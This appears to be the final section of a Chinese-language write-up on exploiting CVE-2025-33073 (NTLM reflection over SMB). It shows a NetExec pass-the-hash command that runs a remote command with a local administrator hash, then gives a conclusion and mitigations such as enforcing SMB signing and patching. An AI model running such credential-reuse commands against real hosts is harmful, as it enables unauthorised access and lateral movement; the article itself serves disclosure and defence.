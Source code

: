   
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOBmcNHajDZG8XFybfXictjeWkVRBDUib2GHJ7Z5l4EqmxDJzcdH0z21swkTrcyoQVhZe9w7yGjYsSw/640?wx_fmt=png&from=appmsg "")  
  
**6. 后渗透利用 (Post Exploitation)**  
  
现在我们可以使用 
```
NetExec
```

  
 或任何后渗透利用工具，配合本地管理员凭据进行操作：  

```
nxc smb 192.168.115.185 -u administrator -H 4b08728132d41e230b4ee268c5b42acb --local-auth -x whoami
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOBmcNHajDZG8XFybfXictjem9rTafoePibOLjQdR8x59qZwVfBCuE8UgKN3BxWYLTLfqvjAOVhPwkg/640?wx_fmt=png&from=appmsg "")  
  
**完整攻击截图**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOBmcNHajDZG8XFybfXictje3TUYBz1TMNVwTPRdvlwhyzicsEAySnu7tib99MLL3lryeX5t7gm6utjg/640?wx_fmt=png&from=appmsg "")  
  
## 结论  
  
尽管 Microsoft 持续加强安全防护，但当配置不当与遗留协议（如 NTLM）结合时，仍会提供危险的权限提升路径。  
  
这并非实验室中的理论技巧；我们已在真实环境中观察到 DNS 配置不当与 NTLM 行为被利用的案例。仅仅一个被忽视的设置（如 SMB 签名）就可能打开安全之门。  
## 检测与缓解措施  
  
**强制执行 SMB 签名**  
- SMB 签名可防止中继攻击，无论采用何种认证类型。应在整个域范围内强制执行。  
  
**应用补丁**  
- Microsoft 针对 CVE-2025-33073 的修复引入了更严格的 SMB 认证期间 DNS 名称验证机制。请确保部署最新的安全更新。  
  
## 参考来源  
- **阅读原始研究文章**  
: NTLM 反射已死，NTLM 反射长存！——CVE-2025-33073 深入分析  
  
  
  
